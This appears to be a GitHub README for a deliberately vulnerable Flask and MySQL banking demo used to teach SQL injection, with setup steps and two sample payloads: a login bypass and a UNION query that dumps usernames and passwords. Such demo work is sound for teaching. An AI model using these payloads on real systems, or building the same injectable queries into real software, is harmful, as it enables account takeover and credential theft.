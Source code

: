 # broke-bank
SQL injection demonstraction built with Flask and MySQL.

# Setup

1. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

2. Create and activate virtual environment (optional, recommended)
```shell
python -m venv .venv      # Create virtual environment
source .venv/bin/activate # On macOS/Linux
.venv\Scripts\activate    # On Windows
```

2. Install dependencies
```shell
pip install -r requirements.txt
```

3. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)

